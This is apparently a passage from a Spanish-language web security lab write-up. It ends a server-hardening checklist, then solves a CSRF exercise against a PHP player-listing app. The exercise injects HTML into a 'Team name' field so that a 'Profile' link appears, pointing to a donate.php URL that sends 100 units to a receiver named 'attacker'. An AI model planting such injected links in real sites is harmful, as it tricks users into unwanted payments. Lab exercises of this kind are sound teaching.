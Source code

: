 8. **Respuesta a incidentes y plan de continuidad del negocio**: Desarrolla un plan de respuesta a incidentes para abordar posibles brechas de seguridad y restaurar el funcionamiento normal del servidor en caso de compromiso. Además, elabora un plan de continuidad del negocio para minimizar el impacto de cualquier interrupción en el servicio.

**Parte 5 - CSRF**

a) Editad un jugador para conseguir que, en el listado de jugadores (list_players.php) aparezca, debajo del nombre de su equipo y antes de “(show/add comments)” un botón llamado “Profile” que corresponda a un formulario que envíe a cualquiera que haga clic sobre este botón a esta dirección que hemos preparado.


| En el campo | Team name |
|-------------|-------------|
| Introduzco | <?$team?> |
| | ```<br></br>``` |
| | ```<br></br>``` |
| | ```<br></br>``` |
| | ```<br></br>``` |
| | ```<a href="http://web.pagos/donate.php?amount=100&receiver=attacker">Profile</a>``` |


![Untitled](img/5.png)
